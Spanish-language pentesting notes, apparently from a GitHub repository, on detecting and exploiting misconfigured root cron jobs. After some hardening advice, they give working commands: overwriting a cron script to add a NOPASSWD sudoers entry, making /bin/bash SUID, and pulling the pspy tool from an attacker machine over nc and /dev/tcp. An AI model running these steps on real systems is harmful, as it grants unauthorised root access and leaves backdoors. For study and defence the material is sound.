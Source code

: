 # Detección y explotación de tareas Cron

Tags: #Linux #CRON  #Escalada #Root #Privilegios #PSPY 

Una tarea **cron** es una tarea programada en sistemas Unix/Linux que se ejecuta en un momento determinado o en intervalos regulares de tiempo. Estas tareas se definen en un archivo **crontab** que especifica qué comandos deben ejecutarse y cuándo deben ejecutarse.

La detección y explotación de tareas cron es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Por ejemplo, si un atacante detecta que un archivo está siendo ejecutado por el usuario “root” a través de una tarea cron que se ejecuta a intervalos regulares de tiempo, y se da cuenta de que los permisos definidos en el archivo están mal configurados, podría manipular el contenido del mismo para incluir instrucciones maliciosas las cuales serían ejecutadas de forma privilegiada como el usuario ‘root’, dado que corresponde al usuario que está ejecutando dicho archivo.

Ahora bien, para detectar tareas cron, los atacantes pueden utilizar herramientas como **Pspy**. Pspy es una herramienta de línea de comandos que monitorea las tareas que se ejecutan en segundo plano en un sistema Unix/Linux y muestra las nuevas tareas que se inician.

Con el objetivo de reducir las posibilidades de que un atacante lograra explotar las tareas cron en un sistema, se recomienda llevar a cabo alguno de los siguientes puntos:

- **Limitar el número de tareas cron**: es importante limitar el número de tareas cron que se ejecutan en el sistema y asegurarse de que solo se otorgan permisos a tareas que requieren permisos especiales para funcionar correctamente. Esto disminuye la superficie de ataque y reduce las posibilidades de que un atacante pueda encontrar una tarea cron vulnerable.
- **Verificar los permisos de las tareas cron**: es importante revisar los permisos de las tareas cron para asegurarse de que solo se otorgan permisos a usuarios y grupos autorizados. Además, se recomienda evitar otorgar permisos de superusuario a las tareas cron, a menos que sea estrictamente necesario.
- **Supervisar regularmente el sistema**: es importante monitorear regularmente el sistema para detectar cambios inesperados en las tareas cron y para buscar posibles brechas de seguridad. Además, se recomienda utilizar herramientas de monitoreo de seguridad para detectar actividades sospechosas en el sistema.
- **Configurar los registros de la tarea cron**: se recomienda habilitar la opción de registro para las tareas cron, para poder identificar cualquier actividad sospechosa en las tareas definidas y para poder llevar un registro de las actividades realizadas por cada una de estas.

A continuación, se comparte el enlace al proyecto de Github correspondiente a la herramienta Pspy:

- **Herramienta Pspy**: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

## CRON

* Directorios  Linux con capacidad de escritura
	**/tmp/**
	**/dev/shm/**

Las tareas CRON son tareas que se ejecutan en el sistema a intervalos regulares de tiempo. Debemos de fijarnos solo en las tareas creadas por el usuario 'root'

```bash 
❯ contrab -e       # Para definir una tarea CRON
❯ contrab -l       # Listas las tareas CRON del usuario
```

```bash
❯ grep -rnw /usr -e "/home/<user>/<file>"         # Lo debemos de hacer desde la raiz y asi podemos ver donde mas se encuentra el archivo 
```

Si no tenemos un editor de texto, podemos hacer lo siguiente:
```bash 
# Haremos que el usuario tenga todos los privilegios sin paswd y lo colocaremos dentro del archivo que tiene la tarea CRON 'bin.sh'
❯ printf '#!/bin/bash\necho "<username> ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/bin.sh

	# \n = Salto de linea 

❯ sudo su                       # Cambiamos al usuario root sin proporcionar passwd
```

* Podemos crearnos un Script llamado '**procmon.sh**', le damos privilegios de ejecución para ver las tareas que se están ejecutando, poder ver los procesos nuevos y antiguos. También podemos ver que  tipo de comandos se están ejecutando y ver cual proceso nos puede ayudar a escalar privilegios. 

   El archivo que necesitamos es el que lo esta ejecutando como root, además de que otros usuarios lo puedan modificar.
   
```bash 
#!/bin/bash
	
function ctrl_c(){
	echo -e "\\n[!] Saliendo \\n"
	tput cnorm; exit 1
}
	
# Ctrl + c
trap ctrl_c INT
tput civis
old_process="$(ps -eo command)"

while true; do
	new_process="$(ps -eo command)"
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
	old_process=$new_process
done	
```

Podemos modificar el binario que tiene una tarea CRON y hacer una bash SUID.
```bash 
❯ chmod u+s /bin/bash              # Haremos que la bash sea SUID
```

```bash 
❯ watch -n 1 ls -l /bin/bash       # Miraremos cada seg. el permiso de /bin/bash

	# n = Tiempo de actualizacion de 1 seg 
```

```bash 
❯ bash -p                          # Nos lanzamos la bash privilegiada, despues de convertirla SUID
```

También podemos usar PSPY para ver las tareas CRON. 
* En releases nos descargamos el binario .sh  > **pspy64**

Para transferir el PSPY podemos usar la ruta **/dev/tcp** y después de transferirlo le damos permisos de ejecución. 
```bash 
❯ nc -nlvp 443 < pspy64                       # Colocaremos este comando en la maquina de atacante 
❯ cat < /dev/tcp/192.168.68.1/443 > pspy      # Leeremos con cat lo que se esta compartiendo por el puerto 443 y ese output meterlo como input a pspy en la maquina victima
❯ md5sum pspy                                 # Para verificar si el binario se ha transferido correctamente, el md5 que obtenemos en la maquina victima del pspy64 debe de ser igual al de la maquina de atacante 
```
